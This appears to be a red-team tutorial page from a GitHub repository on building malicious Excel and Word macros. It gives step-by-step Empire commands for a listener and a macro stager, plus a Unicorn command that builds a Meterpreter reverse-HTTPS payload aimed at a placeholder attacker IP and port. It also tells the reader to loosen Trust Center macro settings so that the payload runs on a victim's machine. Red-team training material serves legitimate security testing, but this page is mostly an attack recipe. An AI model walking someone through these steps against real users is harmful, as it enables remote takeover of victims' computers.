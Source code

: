 #Red Teaming Squad


## Macro

### What is Macro?

Whenever we work with an excel or a word file and we want a certain repetitive task that we wish just get automated without our intervention at that time we can use macro. Macros are similar to Visual Basic Scripts that can be crafted and shared and it works in the background without any knowledge of the user. We can use malicious macro to gain access of victim's machine. Attacker will create a word or excel file then attacker opens the macro editor to generate a script which can generate the session from victim'e machine to attacker's machine. 


### Generate macro payloads using Empire

You can install Empire tool from github or by executing ```git clone https://github.com/EmpireProject/Empire``` command. Navigate to ```Empire``` directory and execute ```./empire``` command. Now start a listener using ```uselistener http``` then check that your listener is active or not using ```listeners``` command.

<kbd>![](Macro_Payloads/1.png)</kbd>

Now create a stager using ```usestager windows/macro``` and link the stager with listener using ```set listener http``` command.

<kbd>![](Macro_Payloads/2.png)</kbd>

Check the stager information using 	```info``` command. Make changes in the values if needed. After that execute the stager which will generate the payload in ```/tmp``` directory.

<kbd>![](Macro_Payloads/3.png)</kbd>

You can check the payload using ```cat macro``` command.

<kbd>![](Macro_Payloads/4.png)</kbd>

Create an excel file and create a macro by following the steps which are shown in image. When you click on create button, macro editor will open.

<kbd>![](Macro_Payloads/5.png)</kbd>

You just need to replace the generated payload in macro editor and save the macro.

<kbd>![](Macro_Payloads/6.png)</kbd>

Now navigate to ```File > Options > Trust Center > Trust Center Settings```.

<kbd>![](Macro_Payloads/7.png)</kbd>

Click on ```Macro Settings``` and change the settings as shown in image and click on ```OK```. Now your payload is ready.

<kbd>![](Macro_Payloads/8.png)</kbd>


### Generate macro payloads using Unicorn

You can install unicorn tool from github or by executing ```git clone https://github.com/trustedsec/unicorn``` command. Navigate to ```unicorn``` directory and execute ```python unicorn.py windows/meterpreter/reverse_https <ATTACKER_IP> <LISTENING_PORT> macro``` command to create the macro payload.

<kbd>![](Macro_Payloads/9.png)</kbd>

You can check the payload using ```cat powershell_attack.txt``` command.

<kbd>![](Macro_Payloads/10.png)</kbd>

You can add the generated payload in macro editor to get the reverse shell.
